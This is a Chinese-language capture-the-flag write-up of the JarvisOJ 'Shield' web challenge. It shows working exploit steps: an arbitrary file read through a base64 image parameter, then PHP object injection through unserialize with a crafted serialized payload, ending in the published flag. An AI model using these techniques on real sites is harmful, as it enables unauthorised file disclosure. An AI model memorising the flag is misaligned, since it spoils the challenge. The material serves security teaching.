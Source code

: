 ## 描述

这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

题目入口：http://web.jarvisoj.com:32768/

```html
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

```
Request URL: http://web.jarvisoj.com:32768/
Request Method: GET
Status Code: 200 OK
Remote Address: 120.26.131.152:32768
Referrer Policy: no-referrer-when-downgrade
Connection: Keep-Alive
Content-Length: 59
Content-Type: text/html; charset=UTF-8
Date: Thu, 01 Aug 2019 14:35:45 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Unix) OpenSSL/1.0.2h PHP/5.6.21 mod_perl/2.0.8-dev Perl/v5.16.3
X-Powered-By: PHP/5.6.21
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Cookie: UM_distinctid=16c4870f86866b-09f63f7b86767a-c343162-190140-16c4870f86999e
Host: web.jarvisoj.com:32768
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
```

图片在 response 里，我保存到了 [shield.jpg](./assets/shield.jpg)

```
Request URL: http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLmpwZw==
Request Method: GET
Status Code: 200 OK
Remote Address: 120.26.131.152:32768
Referrer Policy: no-referrer-when-downgrade
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Date: Thu, 01 Aug 2019 14:35:45 GMT
Keep-Alive: timeout=5, max=99
Server: Apache/2.4.18 (Unix) OpenSSL/1.0.2h PHP/5.6.21 mod_perl/2.0.8-dev Perl/v5.16.3
Transfer-Encoding: chunked
X-Powered-By: PHP/5.6.21
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Cookie: UM_distinctid=16c4870f86866b-09f63f7b86767a-c343162-190140-16c4870f86999e
Host: web.jarvisoj.com:32768
Pragma: no-cache
Referer: http://web.jarvisoj.com:32768/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
img: c2hpZWxkLmpwZw==
```

## 题解

`strings` 和 `binwalk` 了下这个照片，没发现啥信息。打开 010 Editor 也没看出啥，估计这个图片不是关键点所在。

用 Base64 解密 `c2hpZWxkLmpwZw==` 得到 `shield.jpg`，似乎用处不大。

尝试伪造一个文件名 `shielde.jpg`，得到

```html
<br />
<b>Warning</b>:  readfile(shielde.jpg): failed to open stream: No such file or directory in <b>/opt/lampp/htdocs/showimg.php</b> on line <b>7</b><br />
```

似乎要伪造这个参数来搞事情？不会不会，看题解。

麻蛋。。。。。。。这不就可以任意文件读取了吗。。。

先看看这个 `showimg.php`，http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA= ，得到

```php
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

然后又不会了。。。继续看题解。。。麻蛋，居然有 `index.php` 这玩意，构造链接 http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw 然后得到

```php
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

有个 `shield.php`，继续看下去 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocA==

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

好的，看到注释了没？访问 http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=

但是，居然不行！问题出在最开始的 `showimg.php` 里，那里有一个判断路径里不能出现 `pctf`。

查询一下官方文档 `stripos` 这个函数，没啥发现。看题解！发现自己漏关注了 `index.php` 这个文件。。

这个文件里有一个 `class` 的参数！可以赋值到 `x` 内，同时 `class` 是无过滤的！所以我们初始化一个 `filename` 为 `pctf.php` 的 `Shield`，然后序列化传到 `class` 参数。稳！

找个地方运行

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
	}
	$x = new Shield("pctf.php");
	echo serialize($x);
```

得到 `O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`，所以构造链接 http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;} 便可以得到

```html
<?php 
	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
	//Fake flag:
	echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

## 答案

PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
